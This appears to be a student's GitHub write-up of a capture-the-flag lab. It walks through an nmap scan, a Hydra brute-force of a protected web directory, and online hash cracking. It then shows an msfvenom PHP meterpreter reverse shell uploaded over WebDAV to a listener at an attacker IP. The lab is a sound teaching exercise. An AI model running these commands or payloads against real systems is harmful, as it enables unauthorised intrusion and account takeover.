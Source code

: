 ﻿##Red Team 

###Step 1: Discovering the IP address of the linux server.

In order to find the ip address of the machine, we will need to use a network mapping tool called Nmap to scan the network. 

- Open the terminal and run: nmap 192.168.1.0/24 (We used this ip cidr range bcause our attack machine belongs to this subnetwork.)

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/1_nmap.jpg)

From the Nmap scan we can see that port 80 is open. Next we opened a web browser and typed the IP address of the machine into the address bar.

-Open web browser and navigate to 192.168.1.105 and press enter. 
![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/2_web_discovery.jpg)



###Step 2: Locating the hidden directory on the server.

- We navigated through different directories, we noticed reocurring messages:

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/recurring%20message.JPG)

- Upon such discovery we navigated to the directory by typing: 192.168.1.105/company_folders/secret_folder

- The directory asked us for authentication in order to access it. Reading the authentication method, it says "For ashton's eyes only"

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/ashton_eyes_only.jpg)

- We then went back to the web browser and use the credential to log in. We clicked the file connecting_to_webdav

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/webdav_connection.jpg)


### Step 3: Brute force the password for the hidden directory.

Because the folder is password protected, we need to either guess the password or brute force into the directory. In this case, it would be much more efficient
to use a brute force attack, specifically Hydra. 

- Using Ashton's name, run the Hydra attack against the directory: 

   - type: hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/hydra_sytanx.jpg)

- The brute force attack may take some time. Once it finished, the username is ashton and the password is leopoldo.

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/password_discovery.jpg)

-We went back to the web browser and used the credentiial to log in. We open the file connecting_to_webdav file.  

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/14_webdav_%20access_laststeps.png)

- Located inside of the WebDAV file are instructions on how to connect to the WebDAV directory, as well the user's username and hashed password.

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/8a_webdav_hash.jpg)


### Step 4: Connect to the server via Webdav 

There are several ways to break the password hash. But in this intanse we avoided waiting for john to crack the password hash, we used https://crackstation.net
paste the password hash and filled out the CAPTCHA; and clicked Crack Hashes. 

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/9_password_hash_cracking.jpg)

- The password is revealed as: linux4u

### Step 5: Connecting to the server via WebDAV.

- We gained important information to make the WebDAV connection on our local attack machine. We used that information by:
	
	- We opened the file system shortcut from the desktop.
	
	- Clicked on Browse Network.

	- In the URL bar, typed: dav://192.168.1.105/webdav, and entered the credentials to log in.

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/10_connect_to_webdav.jpg)


### Step 6: Creating and Uploading a PHP reverse shell payload.

- To set up the reverse shell, run:
	- msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> shell.php

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/10_connect_to_webdav.jpg)

- The series of command above does the following :

	- msfconsole to launch msfconsole.

	- use exploit/multi/handler
	
	- set payload php/meterpreter/reverse_tcp

	- show options and point out they need to set the LHOST

	- set LHOST 192.168.1.90(Attacker Machine)

	- exploit  

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/10_connect_to_webdav.jpg)

- Placed the reverse shell onto the webDAV directory

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/10_connect_to_webdav.jpg)

- We logged back in, visited the webdav folder by navigating to 192.168.1.105/webdav. Used the credentials obtained before, user:ryan pass:linux4u

- I visited where i uploaded the reverse shell and clicked it to activate it. (If it seems like tge browser is hanging or loading, that means it has worked.)

![alt text](https://github.com/cyberprotocols/cyberpro_inc/blob/main/Ansible/docker_ps_screenshot.png)

### Step 7: Find and capture the flag. 

- on the listener, we are going to search for the file flag.txt located in the root directory. To do such i did the following:

	- Dropped a bash shell with the command: shell

	- Changed directory to the / directory: cd /

	- Searched the system for any files containing the phrase "flag" : find . -iname flag.txt

- Printed the file once i located it by: cat flag.txt

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/16_view_files.jpg)

![alt text](https://github.com/jsanchez-cyberpro/Blue-vs-Red/blob/main/Red%20Team/check_point.jpg)


